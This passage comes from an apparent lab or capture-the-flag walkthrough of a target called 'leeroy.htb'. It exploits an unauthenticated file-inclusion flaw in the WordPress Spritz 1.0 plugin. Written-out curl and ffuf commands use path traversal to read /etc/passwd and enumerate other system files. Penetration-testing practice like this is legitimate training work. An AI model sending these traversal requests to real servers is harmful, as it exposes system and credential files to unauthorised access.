 And it also gives me a link to a [PoC on the exploit-db](https://www.exploit-db.com/exploits/44544) page, when I test the PoC found in exploit-db
And I use the `curl` command:
```shell
$ curl "http://leeroy.htb:13380/wp-content/plugins/wp-with-spritz/
> wp.spritz.content.filter.php?url=/../../../..//etc/passwd"
```
Then I can see the `/etc/passwd` file:

![evidence](./static/07-etc-passwd.png)

And I can see that the user `jenkins` and `leeroy` have a bash shell, and I can conclude that `WordPress` uses the plugin `Spritz 1.0`, and that is affected by an unauthenticated file inclusion vulnerability.

## Exploitation
`Jenkins` password in `.bash_history`, RCE with `Groovy`, and argument injection.

Given I can access `http://192.168.56.113:13380`, and it is a `WordPress` site, and it uses the `Spritz 1.0` plugin, and that plugin is vulnerable to an unauthenticated file inclusion, then I can start exploring all the default files on the target server.

When I use the `ffuf` command with a list of SecLists, and I modify the list to include the directory `/home/leeroy`:
```shell
$ ffuf -w LFI-gracefulsecurity-linux.txt:FUZZ -u "http://leeroy.htb:13380
> /wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?
> url=/../../../../FUZZ" -fs 0
```
Then I get several default files:
